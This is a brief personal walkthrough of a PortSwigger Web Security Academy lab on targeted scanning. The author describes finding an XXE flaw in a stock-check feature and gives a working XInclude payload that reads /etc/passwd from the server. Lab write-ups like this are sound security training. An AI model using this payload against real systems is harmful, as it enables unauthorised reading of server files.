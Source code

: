 # Practitioner 158:  Discovering vulnerabilities quickly with targeted scanning

---

This lab contains a vulnerability that enables you to read arbitrary files from the server. To solve the lab, retrieve the contents of `/etc/passwd` within 10 minutes.

Due to the tight time limit, we recommend using [Burp Scanner](https://portswigger.net/burp/vulnerability-scanner) to help you. You can obviously scan the entire site to identify the vulnerability, but this might not leave you enough time to solve the lab. Instead, use your intuition to identify endpoints that are likely to be vulnerable, then try running a [targeted scan on a specific request](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing#scanning-a-specific-request). Once Burp Scanner has identified an attack vector, you can use your own expertise to find a way to exploit it.

I started by looking around at the functionality of the website. I found the stock option which then drive me into seeing if It was vulnerable.

It was vulnerable to XXE which i then was able to play with it to get the /etc/paswd 

![Untitled](Practitioner%20158%20Discovering%20vulnerabilities%20quick%202a16005c73254929a8105458a3944038/Untitled.png)

![Untitled](Practitioner%20158%20Discovering%20vulnerabilities%20quick%202a16005c73254929a8105458a3944038/Untitled%201.png)

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```